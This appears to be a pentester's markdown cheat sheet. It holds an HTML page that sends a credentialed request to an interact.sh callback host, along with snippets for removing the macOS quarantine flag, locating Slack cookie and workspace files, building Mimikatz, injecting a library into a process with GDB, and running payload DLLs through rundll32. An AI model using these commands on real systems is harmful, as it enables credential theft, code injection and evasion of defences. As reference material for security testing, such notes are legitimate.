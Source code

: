 ```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Test Server</title>
</head>
<body>
  <script>
        var xhr = new XMLHttpRequest();

        xhr.open('GET', 'https://c7y12eh2vtc0000t1v50gd9yteryyyyyb.interact.sh', true); 
        xhr.withCredentials = true;

        xhr.onreadystatechange = () => {
            if(xhr.readyState === XMLHttpRequest.DONE) {
                console.log(xhr.responseText);
            }
        };
        xhr.send();
  </script>
</body>
</html>
```
### Remove Quarentine Bit from Mac OS App
```
sudo xattr -r -d com.apple.quarantine /path/to/MyApp.app
```
### Slack: Common Folder Locations
- **Windows**: `%AppData%\Roaming\Slack`
- **MacOS**:
	- `~/Library/Application Support/Slack/`
	- `~/Library/Containers/com.tinyspeck.slackmacgap/Data/Library/Application Support/Slack`
- **Linux**: I would check the users `~` directory, as a hidden folder or in the `/opt` folder
### Slack: Important File Locations
```
Slack/storage/slack-workspaces or Slack/storage/slack-teams
Slack/storage/slack-downloads
Slack/storage/slack-workspaces
Slack/Cookies
```
### Get MSBuild Path with PowerShell
```powershell
dir HKLM:\SOFTWARE\Microsoft\MSBuild\ToolsVersions\
```
### Using MSBuild To Build Mimikatz
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .\mimikatz.sln /t:Build /p:Configuration=Release /p:Platform=x64
```
### Injecting Shared Library with GDB
```bash
sudo gdb --batch --quiet --pid $PID -ex 'print (void *)__libc_dlopen_mode("evil.so", 2)'
```
### DLL Execution
```powershell
rundll32.exe Benign.dll,Evil
rundll32.exe shell32.dll,Control_RunDLL .\Payload.dll

# For regsvr32, a DLL must export the following functions:
# - EntryPoint()
```